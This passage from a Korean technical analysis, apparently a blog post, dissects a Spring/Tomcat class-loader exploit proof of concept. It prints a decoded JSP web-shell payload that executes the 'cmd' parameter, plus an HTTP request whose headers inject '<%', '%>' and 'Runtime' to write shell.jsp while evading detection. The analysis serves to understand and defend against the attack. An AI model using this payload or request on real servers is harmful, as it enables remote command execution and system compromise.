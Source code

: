 특히, PoC에서 사용한 `class.module.classLoader.resources.context.parent.pipeline.first.pattern`값의 URL인코딩된 부분을 디코딩한 후에 확인해보면 아래와 같다.

```java
%{prefix}i java.io.InputStream in = %{c}i.getRuntime().exec(request.getParameter("cmd")).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1){ out.println(new String(b)); } %{suffix}i
```

여기서 `%{prefix}i`, `%{c}i`, `%{suffix}i` 와 같은 값이 나오는데, 이는 요청 및 응답값을 형식에 맞게 로깅하기 위해 사용하는 표현 중 하나이다. tomcat document에 의하면 `%{xxx}i`는 요청 헤더 `xxx`의 값으로 치환하여 로그에 남는다.

> %{xxx}i write value of incoming header with name xxx (escaped if required)

즉, 두 번째 공격 패킷(아래와 같음)에서 HTTP 요청에서 `prefix`, `suffix`, `c` 에 해당하는 값이 pattern에 `%{prefix}i`, `%{c}i`, `%{suffix}i` 부분에 치환되어 `shell.jsp` 파일에 쓰여진다. 이는 공격자가 `<%`, `%>`, `Runtime`과 같은 문자열에 대한 탐지(쉘 코드 업로드 등의 공격 탐지)를 우회하기 위해 사용한 것으로 생각할 수 있을 것 같다.

```
GET /helloworld/greeting HTTP/1.1
Host: localhost:8080
User-Agent: python-requests/2.27.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
prefix: <%
suffix: %>//
c: Runtime
```

또한, Github에 공개된 jsp 코드를 활용해 런타임에 속성 목록을 확인할 수 있었다. 아래 이미지는 확인한 속성 목록 페이지를 캡처한 것이며, 관련 코드는 `🔗참고한 자료 [8]번`에서 확인할 수 있다.

